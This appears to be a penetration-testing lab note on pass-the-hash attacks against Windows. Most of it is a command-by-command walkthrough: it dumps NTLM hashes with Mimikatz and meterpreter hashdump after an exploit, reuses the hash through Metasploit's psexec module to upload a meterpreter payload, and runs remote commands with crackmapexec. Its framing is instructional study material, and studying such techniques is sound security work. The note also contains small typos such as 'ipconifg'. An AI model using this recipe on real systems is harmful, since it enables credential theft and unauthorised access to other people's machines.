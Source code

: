 - Pass-the-hash is an exploitation technique that involves ***capturing or harvesting NTLM hashes*** or ***clear-text passwords*** and utilizing them to authenticate with the legitimately.
- We can use multiple tools to facilitate a Pass-The-Hash attack:
	- Metasploit PsExec module
	- `Crackmapexec`
- This technique will allow us to obtain ***access to the target system via legitimate credentials*** as opposed to obtaining access via service exploitation.

***

### Practical

### Using PsExec

Perform the `badblue` exploit using metasploit module from `Dumping Hashes with Mimikatz`.  Once you get a shell:
##### NTLM Hash
```
lsa_dump_sam
```
copy the hash in a new text file. 

##### PsExec Pass the Hash
To perform this attack, we need both LM & NT or NTLM hash. Quick way to get that:
```
hashdump
```

##### Background the current meterpreter session:
```
ctrl+z
```

##### Metasploit PsExec
```
use exploit/windows/smb/psexec  #--> because it says 'Authenticated' 
set rhosts Target
set lport 5555
set smbuser administrator
set smbpass LM&NTLM HASH
set target native\ upload  #--> To upload the meterpreter payload
run
```

Once this exploit is performed, we do not need to perform the attack. We can just use the PsExec module to obtain a session.

***

### `Crackmapexec`
```
crackmapexec smb IP -U Administrator -H "NTLM HASH" 
```

##### Perform Commands on the Target
```
crackmapexec smb IP -U Administrator -H "NTLM HASH" -x "ipconifg"
crackmapexec smb IP -U Administrator -H "NTLM HASH" -x "net user"
```